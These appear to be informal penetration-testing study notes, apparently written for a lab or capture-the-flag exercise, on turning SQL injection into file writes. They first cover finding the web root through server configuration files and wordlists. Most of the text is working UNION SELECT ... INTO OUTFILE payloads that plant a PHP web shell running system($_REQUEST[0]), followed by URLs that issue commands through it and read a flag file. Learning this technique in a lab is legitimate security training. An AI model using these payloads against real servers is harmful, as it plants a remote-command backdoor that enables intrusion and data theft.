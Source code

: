 ### 5 - Writing a web shell with SQLi

**Note**:
To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations.

Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt).

Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that we may write to.

**Write the shell into the server**

Using a `union` injection payload, I would craft the following statement to write anything into the server:

`cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -`

Now if I want to start a shell, replacing ‘file written successfully!” with

**`<?php system($_REQUEST[0]); ?>`**

So now we have:

**`cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`**

I have had instances where the code above didnt work. Instead I used:

`' UNION SELECT "",'<?php system(pwd); ?>',"","","" INto outfile '/var/www/html/dashboard/shell.php'-- -`

This ☝️ doesnt  give you remote execution per say but you are passing the command in the `<?php system(ENTER COMMAND HERE); ?>` and you then navigate to `url/shell.php` to see the output. Not very efficient I know lol ... but as you will find out, if there are no requirement of stealth or spead or efficiency only the result matters 😁

You can pass other commands like:

`' UNION SELECT "",'<?php system(dir /); ?>',"","","" INto outfile '/var/www/html/dashboard/shell5.php'-- -`

that will ist the content of `\`. When you see the doc that interests you, grab it with `LOAD_FILE`

***Tip:***

If the attack is successful, this is how you navitgate a web shell:

```
http://<Address>/shell2.php?0=ls

http://<Address>/shell2.php?0=pwd

http://<Address>/shell2.php?0=ls /var/www/html

http://<Address>/shell2.php?0=cat /var/www/flag.txt
```
